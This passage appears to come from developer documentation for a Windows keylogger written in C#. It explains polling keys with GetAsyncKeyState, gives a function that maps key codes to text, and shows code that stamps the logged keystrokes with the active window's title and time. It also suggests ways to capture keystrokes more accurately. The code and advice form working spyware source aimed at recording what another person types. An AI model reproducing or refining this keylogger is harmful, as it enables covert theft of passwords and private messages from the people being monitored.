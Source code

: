 ```csharp
    }
}
```

#### Design Considerations:

1. **Polling vs. Hooks**: The current implementation uses polling via `GetAsyncKeyState` rather than hooks set through `SetWindowsHookEx`. This approach was chosen for initial simplicity and reliability, though it has higher CPU usage and potentially misses keystrokes if the polling interval is too high.

2. **Thread Sleep**: A 10ms sleep is implemented to reduce CPU load. This balances between responsiveness and resource utilization. Future versions may implement adaptive timing based on system load.

3. **Virtual Key Range**: The loop checks all 256 possible virtual key codes, which is comprehensive but potentially inefficient. Future optimization could focus on commonly used key ranges.

### Key Interpretation Layer

Virtual key codes are translated to human-readable text through a comprehensive mapping function:

```csharp
static string InterpretKeyCode(int keyCode)
{
    // Convert virtual key code to readable format
    switch (keyCode)
    {
        case 0x08: return "[Backspace]";
        case 0x09: return "[Tab]";
        // ...additional mappings...
        default:
            return !char.IsControl((char)keyCode) ? ((char)keyCode).ToString() : "";
    }
}
```

#### Technical Notes:

1. **Character Conversion**: For standard alphanumeric keys, direct casting to `char` is used. This approach works for basic ASCII characters but doesn't account for keyboard layouts or modifier keys.

2. **Control Characters**: The `char.IsControl()` check prevents logging of non-printable control characters.

3. **Future Enhancement**: A more robust approach would account for keyboard state (shift, alt, etc.) and use `ToUnicode` API for accurate character translation across keyboard layouts.

### Window Context Tracking

Active window tracking provides context for keystrokes:

```csharp
static void CheckActiveWindowChange()
{
    IntPtr foregroundWindow = GetForegroundWindow();
    StringBuilder windowTitle = new StringBuilder(256);
    if (GetWindowText(foregroundWindow, windowTitle, 256) > 0)
    {
        string newWindow = windowTitle.ToString();
        if (newWindow != currentActiveWindow)
        {
            currentActiveWindow = newWindow;
            LogKeypress($"\r\n[Window: {currentActiveWindow} - {DateTime.Now}]\r\n");
        }
    }
}
```